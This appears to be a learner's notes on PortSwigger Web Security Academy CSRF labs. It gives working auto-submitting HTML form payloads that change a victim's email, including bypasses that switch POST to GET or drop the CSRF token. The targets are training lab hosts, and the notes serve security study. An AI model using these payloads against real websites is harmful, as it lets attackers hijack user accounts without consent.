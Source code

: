 Requirement for csrf

	• Relevant action
	• Cookie based session handling
	• No unpredictable request parameters 

Can be automated using  burpesuite pro edition 



```
<form method="POST" action="https://0a39003e04cac15b80985df6004b00b0.web-security-academy.net/my-account/change-email">
	 <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> 
<script> 
	document.forms[0].submit();
 </script>
```

From <https://portswigger.net/web-security/csrf/lab-no-defenses> 


```
<form method="POST" action="https://0a39003e04cac15b80985df6004b00b0.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="viet@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```
**CSRF where token validation depends on request method**




Intercept we notice a csrf token
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/c04ead97-a67a-46ac-9cec-52adef46971d)


Remove csrf token we get a response that we need to change it
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6c89d56c-5b43-4c9b-a612-d9268239279b)



Changine request to get and removing email change we can send it and get a 302 response
"Follow redirection" we notice that we changed the email without a csrf token
```
<form action="https://0a05007c04bf708c81e28a7200120078.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="viet2@gmail.com">
</form>
<script>
        document.forms[0].submit();
</script>
```

**CSRF where token validation depends on token being present**

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/1b0c0949-c707-4f48-ab19-527524cf985e)


Deleting csrf parameter result in the 302 response 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/771e5618-9d4d-4112-af7c-a90bee8ca4e2)


Exploit: 
```
<form method="POST" action="https://0aa1003d040b2b3f81817a48001f00f2.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="vi@gmail.com">
</form>
<script>
    document.forms[0].submit();
</script>
```





